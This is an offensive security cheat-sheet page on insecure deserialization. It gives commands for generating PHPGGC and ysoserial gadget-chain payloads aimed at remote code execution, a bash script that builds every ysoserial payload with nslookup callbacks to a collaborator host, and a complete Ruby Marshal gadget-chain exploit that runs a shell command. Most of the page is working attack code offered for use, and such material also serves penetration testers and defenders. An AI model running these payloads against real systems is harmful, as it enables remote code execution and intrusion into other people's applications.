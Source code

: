```yaml
---
title: Insecure Deserialization
description: Insecure deserialization is when user-controllable data is deserialized by a website. This potentially enables an attacker to manipulate serialized objects in order to pass harmful data into the application code.
badge: Web
---
```



## PHP

### PHP's Serialized objects format

### PHPGGC

PGP Generic Gadget Chains (PHPGGC)

#### Installation

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

Simply clone the repo, build the image and tag it like you want:
```bash
docker build -t {{ image-tag phpggc }} "https://github.com/ambionics/phpggc.git#master"
```

</template>
<template v-slot:cli>

> PHP >= 5.6 is required to run PHPGGC.

```bash
git clone https://github.com/ambionics/phpggc.git phpgcc
```

The executable will be at `${PWD}/phpgcc/phpgcc`. It is advisable to add it to your path

</template>
</smart-tabs>

#### Usage

You can list the available gadgets with phpggc -l:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run --rm {{ image-tag phpggc }} -l
```

</template>
<template v-slot:cli>

```bash
phpggc  -l
```

</template>
</smart-tabs>

Usually this gadget chains ask you to specify a function to be called and arguments. Typically you will be going for RCEs, so here is an example using the `system` function:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run --rm {{ image-tag phpggc }} -b "{{ gadget-chain Symfony/RCE4 }}" "system" "{{ payload id }}" | clip.exe
```

</template>
<template v-slot:cli>

```bash
phpggc -b "{{ gadget-chain Symfony/RCE4 }}" "system" "{{ payload id }}" | clip.exe
```

</template>
</smart-tabs>

## Java

Insecure deserializations are quite common on Java.
The most common tool to abuse this vulnerability is [ysoserial](https://github.com/frohoff/ysoserial).

### Ysoserial

As stated on its GitHub:

> A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![ysoserial](ysoserial.png)

#### Installation

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

Simply clone the repo, build the image and tag it like you want:
```bash
docker build -t {{ image-tag ysoserial }} "https://github.com/frohoff/ysoserial.git#master"
```

</template>
<template v-slot:cli>

Download the latest `ysoserial.jar` from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

</template>
</smart-tabs>

#### Usage

List the possible gadget chains with no arguments:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run -it ysoserial
```

</template>
<template v-slot:cli>

```bash
java -jar ysoserial.jar
```

</template>
</smart-tabs>

Generate a serialized object to exploit your target:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run -it ysoserial "{{ gadget-chain CommonsCollections1 }}" "{{ payload nslookup your.burpcollaborator.net }}"
```

</template>
<template v-slot:cli>

```bash
java -jar ysoserial.jar "{{ gadget-chain CommonsCollections1 }}" "{{ payload nslookup your.burpcollaborator.net }}"
```

</template>
</smart-tabs>

The objects will likely be sent on base64 or similar formats instad of using the bytes directly. For this cases `base64 -w 0` is your friend as it will generate base64 in just one line:

<smart-tabs variable="tool-docker-vs-cli" :tabs="{'docker': 'Docker', 'cli': 'Command Line'}">
<template v-slot:docker>

```bash
docker run ysoserial "{{ gadget-chain CommonsCollections1 }}" "{{ payload nslookup your.burpcollaborator.net }}" | base64 -w 0
```

</template>
<template v-slot:cli>

```bash
java -jar ysoserial.jar "{{ gadget-chain CommonsCollections1 }}" "{{ payload nslookup your.burpcollaborator.net }}" | base64 -w 0
```

</template>
</smart-tabs>

You will likely want to test a bunch of gadget chains with Burp's intruder or a script. The following script will help you to create a list with a sample of every serializated exploit:


```bash[ysoserial.sh]
#!/usr/bin/env bash

# Usage ./ysoserial.sh your.collaborator.net
# If YSOSERIAL_OPTIONAL_PATH file exists uses java -jar instead of docker
YSOSERIAL_CMD="docker run --rm {{ ysoserial-image ysoserial }}"
YSOSERIAL_OPTIONAL_PATH="{{ ysoserial-jar ./ysoserial.jar }}"


if test -f "$YSOSERIAL_OPTIONAL_PATH"; then
    YSOSERIAL_CMD="java -jar $YSOSERIAL_OPTIONAL_PATH"
    GADGET_CHAINS=$($YSOSERIAL_CMD | tail -n +8 | sed -e 's/^[[:space:]]*\([a-zA-Z0-9]*\).*/\1/')
else
    # When listing the gadget chains requires -t
    GADGET_CHAINS=$(docker run --rm -it {{ ysoserial-image ysoserial }} | tail -n +8 | sed -e 's/^[[:space:]]\+\([a-zA-Z0-9]\+\).\+$/\1/')
fi

for CHAIN in $GADGET_CHAINS; do
    PAYLOAD=$($YSOSERIAL_CMD "$CHAIN" "{{ oob-command nslookup }} $CHAIN.$1" 2> /dev/null | base64 -w 0)
    if [ -n "$PAYLOAD" ]; then
        echo "$PAYLOAD"
    fi
done
```

You can use it as follows:

```bash
./ysoserial.sh {{ collaborator your.collaborator.net }}
```

### Using custom gadget chains

If you got access to some source code, you might want to develop your own gadget chain. The following snippet can be used as an example of how to serialize and deserialize objects in Java:

```java[Main.java]
import data.Foo;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.io.Serializable;
import java.util.Base64;

class Main {
    public static void main(String[] args) throws Exception {
        Foo originalObject = new Foo("str", 123);

        String serializedObject = serialize(originalObject);
        System.out.println("Serialized object: " + serializedObject);

        Foo deserializedObject = deserialize(serializedObject);
        System.out.println("Deserialized data str: " + deserializedObject.str + ", num: " + deserializedObject.num);
    }

    private static String serialize(Serializable obj) throws Exception {
        ByteArrayOutputStream baos = new ByteArrayOutputStream(512);
        try (ObjectOutputStream out = new ObjectOutputStream(baos)) {
            out.writeObject(obj);
        }
        return Base64.getEncoder().encodeToString(baos.toByteArray());
    }

    private static <T> T deserialize(String base64SerializedObj) throws Exception {
        try (ObjectInputStream in = new ObjectInputStream(new ByteArrayInputStream(Base64.getDecoder().decode(base64SerializedObj)))) {
            @SuppressWarnings("unchecked")
            T obj = (T) in.readObject();
            return obj;
        }
    }
}
```


## Ruby

### Ruby 2.X deserialization RCE

Therre is a known gadget chain that achieves RCE on Ruby applications. The requsites are as follows:
1. The ActiveSupport gem **must** be installed and loaded.
2. ERB from the standard library **must** be loaded (_which Ruby does not load by default_).
3. After deserialization, a method that does not exist must be called on the deserialized object.

> While these pre-requisites will almost certainly be fulfilled in the context of any Ruby on Rails web application, they are rarely fulfilled by other Ruby applications.

```ruby[deserialzationRORexploit.rb]
#!/usr/bin/env ruby

class Gem::StubSpecification
	def initialize; end
end

stub_specification = Gem::StubSpecification.new
stub_specification.instance_variable_set(:@loaded_from, "|{{ payload whoami }} 1>&2")

puts "STEP n"
stub_specification.name rescue nil
puts

class Gem::Source::SpecificFile
	def initialize; end
end

specific_file = Gem::Source::SpecificFile.new
specific_file.instance_variable_set(:@spec, stub_specification)

other_specific_file = Gem::Source::SpecificFile.new

puts "STEP n-1"
specific_file <=> other_specific_file rescue nil
puts

$dependency_list = Gem::DependencyList.new
$dependency_list.instance_variable_set(:@specs, [specific_file, other_specific_file])

puts "STEP n-2"
$dependency_list.each{} rescue nil
puts

class Gem::Requirement
	def marshal_dump
		[$dependency_list]
	end
end

payload = Marshal.dump(Gem::Requirement.new)

puts "STEP n-3"
Marshal.load(payload) rescue nil
puts

puts "VALIDATION (in fresh ruby process):"
IO.popen("ruby -e 'Marshal.load(STDIN.read) rescue nil'", "r+") do |pipe|
	pipe.print payload
	pipe.close_write
	puts pipe.gets
	puts
end

puts "Payload (hex):"
puts payload.unpack('H*')[0]
puts
require "base64"
puts "Payload (Base64 encoded):"
puts Base64.encode64(payload)
```